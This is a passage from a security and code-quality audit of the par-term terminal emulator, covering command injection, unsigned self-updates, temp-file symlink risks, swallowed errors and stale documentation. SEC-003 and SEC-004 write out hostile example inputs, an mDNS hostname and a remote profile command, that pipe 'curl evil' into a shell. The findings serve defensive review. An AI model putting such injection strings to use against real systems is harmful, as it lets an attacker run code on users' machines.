- **Remedy**: Correct the counts, ID labels, and the dangling reference. Optionally execute extraction step 1
  (`TmuxSubsystem`) to prove the deferred plan is actionable. Do not leave a known-false measurement in place.

### Security

### [SEC-003] SSH Quick Connect builds a shell command string from a network-supplied hostname
- **Area**: Security — CWE-78 Command Injection
- **Location**: `src/app/render_pipeline/post_render.rs:164-170`
- **Description**: `let ssh_cmd = format!("ssh {}\n", args.join(" "));` then `term.write_str(&ssh_cmd)` — a
  raw PTY write of a *string*, not argv. `SshHost::ssh_args()` (`par-term-ssh/src/types.rs:80-85`) applies no
  sanitization, and mDNS supplies the hostname unvalidated (`par-term-ssh/src/mdns.rs:141`).
- **Impact**: A LAN attacker advertises an mDNS service whose hostname is `h;curl evil|sh;#`; the trailing
  `\n` submits it. Held below Critical because `enable_mdns_discovery` defaults to **false**
  (`ssh_config.rs:28`) — though the `mdns` cargo feature ships by default, so only runtime config gates it —
  and the user must open Quick Connect and select the entry.
- **Remedy**: Reuse the existing unused guard `is_safe_ssh_host`
  (`par-term-config/src/profile_types/profile.rs:285-287`), extended to shell metacharacters, or spawn `ssh`
  via argv as `src/tab/constructors.rs:355-356` already does. **Do not let a dead-code pass delete
  `is_safe_ssh_host` first — it is currently unreferenced and looks removable.**

### [SEC-004] Remote YAML profile source supplies command text, fetched automatically
- **Area**: Security — CWE-494 Download of Code Without Integrity Check
- **Location**: `src/profile/dynamic/fetch.rs:165`
- **Description**: `serde_yaml_ng::from_str(&body)` into `Vec<Profile>` with no field validation. `Profile`
  carries `command`, `command_args`, `hostname_patterns`. Transport is well defended (HTTPS default, `file://`
  rejected at `:82-88`, auth headers blocked over HTTP at `:93-101`, size cap at `:161`) but the *content* is
  trusted wholesale, then merged into the same manager SEC-002 reads.
- **Impact**: A profile-source server ships `hostname_patterns: ["*"]` + `command: "curl evil|sh"`, which
  fires on the next OSC 7 event with no confirmation.
- **Remedy**: Require confirmation before a remotely-sourced profile's `command` executes; consider signing
  profile bundles. Fixing SEC-002 mitigates the execution half.

### [SEC-005] Self-update integrity rests on a checksum from the same channel as the binary
- **Area**: Security — CWE-347 Improper Verification of Cryptographic Signature (composed)
- **Location**: `par-term-update/src/binary_ops.rs:91-115`, `par-term-update/src/http.rs:113-115`, `par-term-update/src/install_methods.rs:150-157`
- **Description**: Three weaknesses composing into one statement. (a) **No signature** — binary and `.sha256`
  come from the same release `assets` array via the same `download_file`, so an attacker who replaces the
  asset replaces the checksum too. (b) `validate_update_url` runs only on the initial URL; ureq's default 10
  redirects are unvalidated per hop, contradicting the module's own claim at `http.rs:13-15`. (c) macOS
  `codesign --verify --deep --strict` has no `-R` requirement pinning the Team ID, so a self-signed bundle
  passes; `spctl` is warn-only (`install_methods.rs:193-203`); and the extraction loop at `:80-141` overwrites
  the live bundle *before* those checks run.
- **Impact**: An attacker who compromises the release (not the transport) ships a malicious binary plus
  matching checksum; nothing detects it. Credit where due: the SHA256 gate correctly precedes any write
  (`self_updater.rs:75` before `:79`). The open-redirect step is **unproven** — no redirect was demonstrated
  on an allowlisted GitHub host.
- **Remedy**: Add minisign/GPG with a pinned public key verified before install; re-validate the host
  allowlist on each redirect; add `-R` pinning Team ID `QMLVG482FY`; extract to a staging directory and swap
  only after verification. **Flag for manual security review; commit separately.**

### [SEC-006] Transpiled-WGSL debug dump writes a predictable, unhardened temp file in release builds
- **Area**: Security — CWE-377 Insecure Temporary File / CWE-59 Link Following
- **⚠️ PARTIALLY FIXED — path half shipped, security half still open.** The concurrent session's work is now
  **committed** (through `caf96ed3`, adding `par-term-render/src/shader_debug.rs`), and the board card was
  marked `done`. Re-verified after the commit: the path normalization is complete and correct; the hardening
  that made this a High security finding is **not** done. Tracked as a follow-up card. `/fix-audit` must close
  the gap, not re-implement the path work:
  - ✅ **Path normalized** — every literal `/tmp` is gone from the writers and reporters;
    `debug_shader_wgsl_filename` now delegates to `crate::shader_debug::transpiled_wgsl_path()`. The new
    helper resolves `std::env::temp_dir()` and carries a test asserting both dump paths start with it.
  - ✅ **The blocking test assertion is already updated** — the diff replaces
    `assert_eq!(path, "/tmp/par_term_matrix_shader.wgsl")` with a `shader_debug::debug_dump_dir()` join, so
    the CI break this audit warned about will not happen.
  - ❌ **The write is still unhardened.** Re-confirmed at `caf96ed3`: `write_debug_shader_wgsl`
    (`mod.rs:55-61`) remains a bare `std::fs::write(&debug_filename, wgsl_source)` — **no `mode(0o600)`, no
    `O_NOFOLLOW`, no `create_new`/`O_EXCL`**. This is the actual security property, and a pure path refactor
    does not supply it.
  - ❌ **Still not `debug_assertions`-gated** — re-confirmed at `caf96ed3`: `grep -c debug_assertions` is
    **0** in both `custom_shader_renderer/mod.rs` and `hot_reload.rs`, so the dump still runs in release
    builds. Contrast `wgsl_emit.rs:281`, which *is* gated and *does* apply `mode(0o600)` (`:288-293`) — the
    correct pattern already exists 200 lines away and was not applied to this writer.
  - ❌ **On Linux, normalizing changes nothing about exposure**: `temp_dir()` is `/tmp` there — shared and
    world-writable. macOS becomes safe only incidentally, because `$TMPDIR` is per-user.
  - ⚠️ **New stale comment introduced by the in-flight change**: `debug_shader_wgsl_filename`'s docstring
    (`mod.rs:43-48`) still says "Unix keeps the documented `/tmp` location", which its own rewritten body now
    contradicts. Report this back to whoever owns the change.
- **Location**: `par-term-render/src/custom_shader_renderer/mod.rs:55-61` (write), `:43-48` (stale docstring);
  reference pattern at `.../transpiler/wgsl_emit.rs:281,288-293`
- **Description**: `format!("/tmp/{file_name}")` — a **literal** `/tmp`, not `std::env::temp_dir()` — followed
  by `std::fs::write(&debug_filename, wgsl_source)` with no `O_NOFOLLOW`, no `O_EXCL`, no mode restriction.
  `grep -c debug_assertions` is **0** in both `mod.rs` and `hot_reload.rs`, so this is **not** debug-gated;
  both call sites (`mod.rs:309`, `hot_reload.rs:43`) are unconditional production paths. Filenames are
  enumerable from the 73 shipped shaders.
- **Impact**: Another local user pre-plants `/tmp/par_term_matrix_shader.wgsl` as a symlink; par-term follows
  it and truncates the target. `/tmp` is `drwxrwxrwt`, so the sticky bit prevents deleting others' files but
  not creating a new name. Primarily macOS — Linux `fs.protected_symlinks=1` blocks the cross-owner follow.
  **This is the security bug hiding inside the board's known-cosmetic path-reporting card, not the cosmetic
  issue itself.**
- **Remedy (remaining work only)**: the in-flight change already supplies `temp_dir()` resolution and the doc
  updates. What is left is to harden the write itself in `write_debug_shader_wgsl` — apply the
  `OpenOptions` + `mode(0o600)` pattern from `wgsl_emit.rs:288-293`, add `create_new`/`O_NOFOLLOW` so a
  pre-planted symlink cannot be followed, and wrap the whole dump in `#[cfg(debug_assertions)]` so it stops
  running in release builds at all. Also correct the stale docstring at `mod.rs:43-48`. **Coordinate with the
  session owning the dirty files — do not edit them concurrently.**

### Code Quality

### [QA-009] ✅ RESOLVED — Same UB class via `mem::zeroed`, knowingly
- **Status**: **Fixed during this audit run by commit `cb9abf12`** ("encode from a constructible `KeyInput`,
  not a forged `KeyEvent`"). Verified: `tests/input_tests.rs` now constructs a real `KeyInput` and its header
  comment cites `eff2b1e6` explicitly. **No action for `/fix-audit`.**
- **Location**: `tests/input_tests.rs:87` *(at `88e5d472`; no longer present)*
- **Description**: `let mut event: KeyEvent = std::mem::zeroed();` — the comment at `:84-85` explicitly
  acknowledges it is for "the platform-specific field which is pub(crate) in winit and cannot be set from
  outside the crate." Zeroing a struct containing the `Key` enum has no validity guarantee.
- **Impact**: UB by contract, but materially lower crash probability than QA-001 (an all-zero pattern usually
  lands on a valid discriminant), and it is an integration binary, not the lib binary. 7 call sites across 5
  non-ignored tests.
- **Remedy**: Fix with QA-001 — one change, same approach.

### [QA-010] User data written non-atomically, while the project applies its own atomic-save convention to `config.yaml`
- **Location**: `src/session/storage.rs:37-46`, `src/profile/storage.rs:79`, `src/arrangements/storage.rs:87`
- **Description**: Session save opens with `.truncate(true)` then `write_all`; profiles and arrangements call
  `std::fs::write` directly. The correct pattern exists at `par-term-config/src/config/persistence.rs:137-160`,
  comment "Atomic save: write to temp file then rename to prevent corruption on crash".
- **Impact**: A crash, kill, or full disk mid-write truncates the file — and the load paths recover
  **silently**: `src/session/storage.rs:78-79` returns `Ok(None)` on empty, `src/profile/storage.rs:40-46`
  returns an empty `ProfileManager`. The user loses every saved profile, arrangement, or session with no
  error. Session save runs at shutdown, when a kill is most likely — and CLAUDE.md instructs developers to
  `pkill -f "target/debug/par-term"`.
- **Remedy**: Extract the `persistence.rs` temp-plus-rename helper for all three, preserving 0600 on the
  session file. **Fold into QA-023** — its generic `save_yaml_atomic<T>` *is* this fix. Also satisfies
  SEC-021 if the helper sets mode 0600.

### [QA-011] Screenshots render through a separate, overlay-less, single-pane code path
- **Location**: `par-term-render/src/renderer/rendering.rs:608` → `:645` → `:484` → `par-term-render/src/cell_renderer/render.rs:71` → `instance_buffers.rs:93`
- **Description**: **Orchestrator-verified chain**: `build_instance_buffers` ← `render_to_texture`
  (`render.rs:71`) ← `render_cells_to_target` (`rendering.rs:509`, `:577`) ← and `render_cells_to_target` has
  exactly **one** caller, `rendering.rs:645`, inside `take_screenshot` (`:608`). The live path is separate
  (`render_split_panes` → `build_pane_instance_buffers`). `build_instance_buffers` reads `self.cells`
  (`instance_buffers.rs:106`) — focused pane only — whereas per-cell overlays are applied to
  `pane_data[].cells` at `gpu_submit.rs:360`. `rendering.rs:483` admits the screenshot path has "no split-pane
  layout."
- **Impact**: The CLI `--screenshot` hook (`src/app/window_manager/cli_timer.rs:92`) and the MCP
  `terminal_screenshot` tool (`src/app/window_state/agent_screenshot.rs:23`) return a frame differing from the
  user's screen — missing split panes, search highlights, URL underlines. Both are the **agent-operability
  verification hooks**, so automated visual checking and AI-assisted debugging silently mislead. Also a
  duplicated instance builder. CLAUDE.md's description ("only used by the shader intermediate texture path")
  is wrong and implies the live custom-shader path.
- **Remedy**: Route `take_screenshot` through `render_split_panes` into an offscreen target so one builder
  serves both; delete `build_instance_buffers`. Sequence after ARC-004.

### [QA-012] ACP agent-message drain is gated behind rendering, so an idle unfocused window can hang the agent subprocess
- **Location**: `src/app/window_state/impl_agent.rs:218` (channel), `src/app/window_state/agent_state.rs:75-83` (`drain_messages`)
- **Description**: `drain_messages()` is reached only via `process_agent_messages_tick()` →
  `submit_gpu_frame()` → `WindowEvent::RedrawRequested`. Every `needs_redraw = true` inside
  `agent_messages.rs` sits *inside* the loop that follows the drain, so none can bootstrap the first drain. No
  redraw trigger in `about_to_wait()` is tied to "an agent is connected," and cursor blink — the one periodic
  trigger — is skipped when unfocused under `pause_refresh_on_blur`, default `true`.
- **Impact**: Two of the three message variants are synchronous RPC calls the agent blocks on, and
  `AgentMessage::ConfigUpdate`'s `reply_rx.await` has **no timeout**. Tab away while an agent works and the
  subprocess can hang indefinitely.
- **Remedy**: Drain the receiver unconditionally from `about_to_wait()` on the same poll every other queue
  uses, or set `needs_redraw` on message arrival rather than after a drain.

### [QA-013] Failed PTY writes silently discarded on every user-input path, with no logging
- **Location**: 14 sites — `src/app/input_events/key_handler/mod.rs:315,539,596,623`; `src/app/mouse_events/mouse_button.rs:190,193,353`; `mouse_wheel.rs:131`; `mouse_move.rs:204`; `mouse_tracking.rs:85`; `src/app/input_events/key_handler/utility.rs:102`; `src/app/window_manager/menu_actions.rs:187`; `src/app/tab_ops/profile_ops.rs:144`; `src/app/window_state/agent_tick_helpers.rs:187`; `src/app/file_transfers/upload.rs:150`
- **Description**: All use `let _ = term.write(...)` with **no logging at any of the 14 sites** (verified — no
  adjacent log call). They run inside `spawn(async move { ... })` where there is no caller to propagate to.
  `key_handler/mod.rs:623` is the primary keystroke→PTY path.
- **Impact**: If a PTY write fails (shell exited, pipe full, fd closed, broken-pipe race) the user's
  keystroke, paste, or mouse event silently vanishes — no error, no retry, no log line. Invisible in the debug
  log that exists for exactly this purpose.
- **Remedy**: `if let Err(e) = term.write(..) { crate::debug_error!("INPUT", "PTY write failed: {e}"); }` —
  the macro already exists.

### [QA-014] Byte-slice display truncation, four sites
- **Location**: `src/search/mod.rs:499`; `src/app/render_pipeline/egui_overlays.rs:119-120`; `par-term-settings-ui/src/profiles_tab/dynamic_sources.rs:72-73`; `src/app/window_state/shader_ops.rs:219-221`
- **Description**: Raw `&s[..n]` truncation with no char-boundary check. `search/mod.rs:499` slices a
  `regex::Error` string echoing the user's own invalid pattern; `egui_overlays.rs:119-120` slices `&cmd[..47]`
  on a recorded shell command; `dynamic_sources.rs:72-73` slices `&source.url[..57]` every Settings frame.
  ⚠️ The `shader_ops.rs` reference was **not independently re-verified** — treat as lower confidence than the
  other three and confirm before editing.
- **Impact**: Panic on non-ASCII near the cut point — an invalid regex containing an accent, hovering a
  scrollbar mark, or a URL with a non-ASCII character.
- **Remedy**: Reuse the existing char-safe helper `truncate_chars` at `src/ai_inspector/panel_helpers.rs:21`
  at all four sites.

### [QA-015] `[0]` indexing on possibly-empty wgpu capability vectors
- **Location**: `par-term-render/src/cell_renderer/mod.rs:363`, `:383`, `:404`
- **Description**: `get_capabilities` (`:357`) can return empty `formats`/`present_modes`/`alpha_modes` on an
  incompatible surface/adapter pair — documented wgpu behavior; wgpu's own `get_default_config` uses
  `.first()` for this reason. Note `:363`'s `unwrap_or(surface_caps.formats[0])` evaluates the fallback
  **unconditionally**, even when `.find()` succeeds.
- **Impact**: Startup crash on software-rendering VMs, remote sessions, and unusual drivers — environments
  this function's own comments already discuss.
- **Remedy**: `.first().copied().ok_or(..)?` chains; the function already returns `Result`.

### [QA-016] Swallowed `current_exe()` error silently reclassifies the install type
- **Location**: `par-term-update/src/install_methods.rs:35-41`
- **Description**: `unwrap_or_default()` yields an empty path, which falls through every substring check in
  `detect_installation_from_path("")` to `InstallationType::StandaloneBinary`.
- **Impact**: Bypasses the Homebrew/cargo update refusal at `self_updater.rs:41-57`, offering "Install Update"
  to package-managed installs. Escalation (requires a second `current_exe()` at `self_updater.rs:59-60` to
  succeed after the first failed): `install_standalone` could overwrite the real binary, orphaning it from the
  package manager.
- **Remedy**: Propagate the error and refuse to update rather than defaulting to standalone.

### Documentation

### [DOC-002] 51 broken doc links — the `docs/` reorganization never reached crate READMEs or `SECURITY.md`
- **Location**: `SECURITY.md:147-156`; all 13 `par-term-*/README.md`; `examples/README.md:225`; `docs/plans/README.md:27,28`
- **Description**: Docs moved into `docs/architecture/`, `docs/features/`, `docs/guides/`, but these files
  still link the flat pre-move paths. All line numbers were re-derived with `grep -n` because
  `find_broken_doc_links` reports the enclosing section's start line rather than the link's.
- **Impact**: These READMEs are the **published crate front pages**, so every broken link renders on crates.io
  and docs.rs.
- **Remedy**: Mechanical path rewrite — `../docs/{ARCHITECTURE,CRATE_STRUCTURE,COMPOSITOR}.md` →
  `../docs/architecture/…`; `../docs/{CUSTOM_SHADERS,SHADERS,PROFILES,ARRANGEMENTS,SCROLLBACK,SEMANTIC_HISTORY,SESSION_LOGGING,AUTOMATION,SSH,SELF_UPDATE,TABS,SNIPPETS}.md`
  → `../docs/features/…`; `../docs/{KEYBOARD_SHORTCUTS,QUICK_START_FONTS}.md` → `../docs/guides/…`. In
  `SECURITY.md` drop the leading `../`. In `docs/plans/README.md` use `../architecture/…`. **Do not touch**
  `../docs/{ASSISTANT_PANEL,ACP_HARNESS,CONFIG_REFERENCE}.md` — already correct.

### [DOC-003] 11 links point to the root README but silently resolve to the docs index
- **Location**: `docs/guides/GETTING_STARTED.md:98,319`; `docs/guides/KEYBOARD_SHORTCUTS.md:261`; `docs/features/SEARCH.md:251`; `docs/features/SESSION_LOGGING.md:265`; `docs/features/INTEGRATIONS.md:345`; `docs/features/MOUSE_FEATURES.md:334`; `docs/features/CUSTOM_SHADERS.md:1109`; `docs/features/WINDOW_MANAGEMENT.md:505`; `docs/features/SELF_UPDATE.md:355`; `docs/architecture/COMPOSITOR.md:775`
- **Description**: All use `](../README.md)`. From `docs/guides/` and `docs/features/` that resolves to
  `docs/README.md` (6,707 bytes, the docs index) rather than the root `README.md` (27,960 bytes). Link text
  proves intent: `GETTING_STARTED.md:98` says "See the [README](../README.md) for full installation details,
  macOS bundle creation, and troubleshooting Gatekeeper issues" — none of which is in the docs index.
  **Zero** files use the correct `../../README.md`. Invisible to link checkers because the target exists;
  corroborated by `docs/README.md` having an inbound doc-link degree of exactly 11.
- **Impact**: A new user following Getting Started to installation details lands on a navigation index.
- **Remedy**: Change all 11 to `../../README.md`.

### [DOC-004] ✅ RESOLVED — The menu bar is documented as working on Linux; it is never attached
- **Status**: **Fixed after this report was written**, by commits `d1bf97c3` ("docs(menu): stop claiming Linux
  has a menu bar") and `f988ab70` ("docs(menu): correct the Linux keyboard-route claim and caveat the menu-only
  docs"), picked up from the board card this audit filed. **Orchestrator-verified**: `ARCHITECTURE.md:230` now
  states the menu is built but never attached on Linux *and explains why* (muda requires a `gtk::Window`;
  winit's X11/Wayland backends never create one), directing Linux users to keybindings; `src/menu/linux.rs`'s
  module doc now carries an honest explanation in place of the false claims. This is a better fix than the
  finding asked for. **No action for `/fix-audit`.**
- **Location**: `docs/architecture/ARCHITECTURE.md:230`; `docs/features/INTEGRATIONS.md:152`; `docs/guides/TROUBLESHOOTING.md:621`; `docs/features/ARRANGEMENTS.md:104`; false rustdoc at `src/menu/linux.rs:11,32` *(all as of `88e5d472`)*
- **Description**: `ARCHITECTURE.md:230` states the menu bar covers "macOS global menu, Windows/Linux
  per-window menus", but `src/menu/linux.rs:16-33` only calls `log::info!` — `init_for_window` attaches
  nothing, and `grep -rn 'init_for_gtk_window' src/` returns no matches. The code's own docs contradict each
  other: `linux.rs:11` claims "Attach the menu bar to a Linux window" and `:32` logs "Linux menu bar
  initialized (GTK-based)", while `src/menu/mod.rs:40-41` correctly admits "Only attached on macOS and
  Windows". Three docs then walk users through the menu bar with no Linux caveat, including
  `TROUBLESHOOTING.md:621`. This also strands menu-only shortcuts at
  `docs/guides/KEYBOARD_SHORTCUTS.md:25,29,39,68` as unreachable on Linux.
- **Impact**: Linux users following a documented procedure find no menu bar and no alternative path.
  `TROUBLESHOOTING.md` is especially damaging — it is where a stuck user goes.
- **Remedy**: Document current reality now (the code fix is unscheduled on the board): reword
  `ARCHITECTURE.md:230`, add a Linux note plus the CLI/Settings alternative at the three procedural sites, and
  fix the false rustdoc at `src/menu/linux.rs:11,32` to match `src/menu/mod.rs:40-41` — that rustdoc is wrong
  either way. Whoever closes the board's code item must revert the caveats.

### [DOC-005] The XDG environment-variable section is fictional — five documented variables control nothing
- **Location**: `docs/guides/ENVIRONMENT_VARIABLES.md:88,92,93,94,95,96`
- **Description**: `:88` claims par-term "follows the XDG Base Directory specification", and `:92` states
  config lives at `$XDG_CONFIG_HOME/par-term/config.yaml`. But
  `par-term-config/src/config/persistence.rs:186-190` hardcodes
  `dirs::home_dir().join(".config").join("par-term").join("config.yaml")` — the variable is never read for
  config location. The only `XDG_CONFIG_HOME` reads in the workspace are
  `par-term-config/src/config/env_vars.rs:45` (a pass-through allowlist entry) and
  `src/shell_integration_installer.rs:248` (shell RC files only). `XDG_DATA_HOME`, `XDG_STATE_HOME`,
  `XDG_CACHE_HOME`, `XDG_RUNTIME_DIR` (`:93-96`) are read nowhere. The comment at `persistence.rs:185` reveals
  the confusion: "Use XDG convention on all platforms" — it follows the default *path*, not the *spec*.
- **Impact**: Anyone with a non-default `XDG_CONFIG_HOME` (common on Linux and in dotfile setups) edits a
  config par-term never reads, then cannot explain why settings do nothing.
- **Remedy**: Rewrite `:88-96` to state par-term uses a fixed `~/.config/par-term/` and does not consult XDG
  variables. (Honoring `XDG_CONFIG_HOME` in `persistence.rs` is the alternative, but that is a behavior change
  — see ENH-008.)

### [DOC-006] The debug log path is wrong on macOS in 11 documentation sites
- **Location**: `CLAUDE.md:49`; `CONTRIBUTING.md:205`; `docs/LOGGING.md:162,181,184,187,197,264`; `docs/guides/ENVIRONMENT_VARIABLES.md:37,40`; `Makefile:13`
- **Description**: `CLAUDE.md:49` says "logs to /tmp/par_term_debug.log" and `docs/LOGGING.md` gives six
  literal `tail -f /tmp/par_term_debug.log` commands. **Orchestrator-verified**: `src/debug.rs:97` and `:224`
  both use `std::env::temp_dir().join("par_term_debug.log")`, and `src/debug.rs:43` documents it correctly
  ("respects `$TMPDIR` on Unix, `%TEMP%` on Windows"). On macOS `temp_dir()` is `$TMPDIR`
  (`/var/folders/.../T/`), not `/tmp`. Reproduced: `/tmp/par_term_debug.log` does not exist while
  `$TMPDIR/par_term_debug.log` does. `Makefile:13` (`DEBUG_LOG := /tmp/par_term_debug.log`) means
  `make tail-log` is broken on macOS too.
- **Impact**: Every macOS developer or bug reporter told to read the debug log looks in an empty directory —
  the platform most contributors use.
- **Remedy**: Replace literal `/tmp/...` with `"$TMPDIR"/par_term_debug.log` (or direct readers to
  `make tail-log`), and resolve the temp dir in `Makefile:13`. **Distinct from SEC-006** — that is the shader
  dump; this is the debug log, and `src/debug.rs` is already correct. No dependency between them.

### [DOC-007] CLAUDE.md's concurrency gotcha names a lock type and methods that do not exist
- **Location**: `CLAUDE.md:238`
- **Description**: `:238` reads "Use `try_lock()` from sync contexts when accessing `tab.terminal`
  (tokio::sync::Mutex). For user-initiated operations (start/stop coprocess), use `blocking_lock()`. See
  MEMORY.md for details." But `src/tab/mod.rs:80` is `pub(crate) terminal: Arc<RwLock<TerminalManager>>` with
  `src/tab/mod.rs:38` importing `tokio::sync::RwLock`. A `tokio::sync::RwLock` has **no** `try_lock()` or
  `blocking_lock()`. The project's own architecture docs are correct and contradict CLAUDE.md:
  `docs/architecture/MUTEX_PATTERNS.md:119,149` and `CONCURRENCY.md:108,131,132` all prescribe
  `try_read()`/`try_write()`/`blocking_read()`/`blocking_write()`. The referenced `MEMORY.md` does not exist
  in the repo. Stale since the 0.35.0 `Mutex` → `RwLock` migration.
- **Impact**: CLAUDE.md is the first file every AI coding session reads. Following it produces code that does
  not compile, and it overrides the correct guidance in `MUTEX_PATTERNS.md`.
- **Remedy**: Rewrite `:238` for `RwLock` with the four correct methods, and point to
  `docs/architecture/MUTEX_PATTERNS.md` instead of the nonexistent `MEMORY.md`.

### [DOC-008] Four keyboard shortcuts document the wrong platform modifier or a shortcut that cannot fire
- **Location**: `docs/guides/KEYBOARD_SHORTCUTS.md:67,65,177,146`
- **Description**: Defaults live in `par-term-config/src/defaults/misc.rs:34` (not `par-term-keybindings/`,
  which only parses and matches).
  - `:67` documents `Ctrl + Shift + H` for clipboard history on macOS, but
    `src/app/input_events/key_handler/clipboard.rs:55-58` calls `primary_modifier_with_shift`, which at
    `src/platform/modifiers.rs:56-57` requires `super_key() && shift_key() && !control_key()` on macOS — the
    documented macOS binding is explicitly excluded and **cannot fire**.
  - `:65` documents `Cmd + ,` as "Cycle cursor style", but
    `src/app/window_state/keyboard_handlers.rs:48-51` intercepts Cmd+comma to open Settings before
    `.../key_handler/utility.rs:165-169` is reached.
  - `:177` documents `Cmd/Ctrl + Shift + P` as "Toggle profile drawer", but `src/menu/mod.rs:197-203` binds
    that accelerator to `manage_profiles`, routed to the Settings Profiles tab
    (`src/app/window_manager/menu_actions.rs:442-448`). Two documented behaviors on one chord.
  - `:146` documents `Shift + F11` as "Maximize window vertically", but
    `src/app/window_state/keyboard_handlers.rs:19` matches bare `NamedKey::F11` with no modifier guard, so
    Shift+F11 toggles fullscreen.
- **Impact**: `KEYBOARD_SHORTCUTS.md` is the most-referenced doc in the repo (inbound doc-link degree 30).
  Wrong shortcuts read as product bugs.
- **Remedy**: Correct the four rows to observed behavior. For `:65` and `:177`, decide which behavior is
  intended and fix code or doc deliberately rather than editing the table.

### [DOC-009] `API.md` documents 11 enums with variants that do not exist
- **Location**: `docs/API.md:109,117,176,188,234` (zero overlap with reality) and `:118,121,161,99,159,395` (partly wrong)
- **Description**: Five enums share **no** variant with reality; all are `Serialize/Deserialize` with
  `rename_all = "snake_case"`, so they are `config.yaml`-facing:
  `LinkUnderlineStyle` documented `None/Always/Hover` vs real `Solid, Stipple`
  (`par-term-config/src/types/terminal.rs:279`); `TabStyle` documented `Default/Powerline/Slant` vs real
  `Dark, Light, Compact, Minimal, Automatic, HighContrast` (`types/tab_bar.rs:15`); `AmbiguousWidth`
  documented `Single/Double` vs real `Narrow, Wide` (`types/unicode.rs:66`); plus `TmuxConnectionMode` and
  `TriggerSplitTarget`. Partly wrong: `TabBarMode` `Auto`, `NewTabPosition` `AtEnd` (real `End`),
  `SliderScale` `Logarithmic` (real `Log`).
- **Impact**: Developers and users copying enum values get config parse failures. Mitigated but not excused by
  API.md's own disclaimer at `:3`. All 317 API.md rows resolve to real public items, so this is
  description-only drift.
- **Remedy**: Regenerate the 11 variant lists from the type definitions.

### [DOC-010] `check_command_allowlist` is documented with an inverted return contract on a security check
- **Location**: `docs/API.md:193` (and `:192` for the denylist sibling)
- **Description**: `:193` says "Returns `true` if the command is on the security allowlist", but
  `par-term-config/src/automation.rs:508` is
  `pub fn check_command_allowlist(command: &str, allowed_commands: &[String]) -> Result<(), String>` — it
  returns `Result`, not `bool`, and takes two parameters. A caller trusting "returns `true`" would invert the
  check, since `Ok(())` is the *allowed* case. `check_command_denylist` (`:192`) is likewise documented with 1
  param and "returns an error" vs the real `automation.rs:401` returning `Option<&'static str>`.
- **Impact**: Security-relevant misdocumentation on an allowlist API.
- **Remedy**: Correct both signatures and return semantics.

### [DOC-011] CLAUDE.md's version is two releases stale, violating the project's own release check
- **Location**: `CLAUDE.md:12`
- **Description**: `:12` says `**Version**: 0.36.0`, while `Cargo.toml:99` is `0.37.1`, `CHANGELOG.md:19` is
  `## [0.37.1] - 2026-07-29`, tag `v0.37.1` exists, and `README.md:44` says "What's New in 0.37.1". CLAUDE.md
  is the sole outlier. `CONTRIBUTING.md:474` explicitly mandates this check, and `CLAUDE.md:13-14` even
  carries a machine-readable `sed` reminder that was not run.
- **Impact**: Every AI session reads a wrong version and may reason about the wrong release.
- **Remedy**: Delete the line rather than fixing the number —
  `docs/DOCUMENTATION_STYLE_GUIDE.md:224` advises against duplicating versions outside manifests and
  changelogs, so the field is a recurring drift source with no consumer.

---

## 🟡 Medium Priority Issues

### Architecture

- **[ARC-006] Security-critical URL validation duplicated across two crates with divergent allowlists.**
  `src/http.rs:18,21,24,32,47,89` and `par-term-update/src/http.rs:27,30,33,41,56,88` each define
  `HTTP_TIMEOUT`, `MAX_API_RESPONSE_SIZE`, `MAX_DOWNLOAD_SIZE`, an `agent()` builder, and a **separate host
  allowlist** (`ALLOWED_DOWNLOAD_HOSTS` vs `ALLOWED_HOSTS`) feeding near-identical validators. `src/http.rs`'s
  own doc comment concedes it is "matching the validation pattern used by the self-update subsystem". Two
  copies of an SSRF defense kept in agreement by hand — hardening one silently leaves the other weaker.
  *Remedy*: promote to one place; `par-term-update::http` has the richer implementation. **Needs manual
  security review and its own commit.** Coordinate with SEC-005.
- **[ARC-007] `par-term-settings-ui` declares a `wgpu` feature and two optional deps nothing can activate.**
  `par-term-settings-ui/Cargo.toml:20-21,71`. Root manifest depends on the crate with no `features` list
  (`Cargo.toml:147`), `default = []`, and the crate's source contains **zero** references to `egui_wgpu`/
  `egui_winit` and zero `cfg(feature = ...)` attributes — inert even if enabled. A published crate advertises
  a capability it lacks, and it misrepresents the layering. *Remedy*: delete lines 20–21 and 71.
- **[ARC-008] `src/input.rs` is a two-line re-export shim that CLAUDE.md directs contributors to edit.**
  `src/input.rs:1-2` is entirely `pub use par_term_input::InputHandler;`; the real type is at
  `par-term-input/src/lib.rs:34`. CLAUDE.md `:202` instructs "add sequence generation in `src/input.rs` →
  `InputHandler`" and `:119` lists it under Input handling. The project's own navigation guide sends every new
  contributor and agent to a file where the work cannot be done. *Remedy*: point both CLAUDE.md references at
  `par-term-input/src/lib.rs` and `par-term-input/src/key_encoding.rs`.
- **[ARC-009] Five files exceed the project's own 800-line production threshold; 83 exceed the 500-line
  target.** — **deferred from this cycle.** Excluding `#[cfg(test)]` tails:
  `par-term-config/src/config/config_struct/mod.rs` **1528**, `par-term-config/src/shader_controls.rs`
  **1041**, `par-term-config/src/snippets.rs` **1038**, `par-term-render/src/cell_renderer/pane_render/mod.rs`
  **863**, `src/app/triggers/mod.rs` **816**. Excluded as false positives after measuring production lines:
  `par-term-mcp/src/lib.rs` (920 total, 413 production), `par-term-acp/src/agent.rs` (807 total, 641).
  `par-term-render/src/cell_renderer/block_chars/box_drawing_data.rs` (1051) is a static data table —
  legitimately exempt, and CLAUDE.md should say so. *Deferred*: splitting files invalidates every
  line-anchored edit in this audit. Tracked as ENH-009.
- **[ARC-010] Redundant re-export shim modules blur where implementations live.** `src/shell_detection.rs` (4
  lines), `par-term-settings-ui/src/shell_detection.rs` *(NOT dead — used by `profile_modal_ui/edit_view.rs`)* (4 lines), `src/status_bar/config.rs` (5 lines),
  `src/manifest.rs` (2 lines) — each exists solely to `pub use` from a sub-crate "for backward compatibility",
  and `shell_detection` is re-exported twice even though both crates already depend on `par-term-config`
  directly. Three plausible import paths for one symbol. Combined with ARC-008, this is the pattern that let
  ARC-001's orphans go unnoticed: a directory of re-export shims is indistinguishable at a glance from a
  directory of implementations. *Remedy*: adopt one rule, keep re-exports only in `lib.rs`, delete the
  standalone shims — compiler-verified and safe.

### Security

- **[SEC-007] `env::set_var` data race in test code.** **Scope narrowed after mid-audit drift**: commit
  `979ecd11` ("resolve substitution through a lookup, not the environment") rewrote
  `tests/config/config_env_tests.rs`, removing most of its `set_var` calls (**1 residual remains**). Still
  fully present in `par-term-mcp/src/lib.rs:696,704,724,728,744,745,802,806,822,823` — **10 calls, and
  re-verified: still no `serial_test` dependency anywhere in the workspace.** Note this is **not** the cause
  of the tracked Linux SIGSEGV — that was QA-001, now fixed and Miri-proven — so this stands on its own as a
  correctness defect rather than an incident lead.
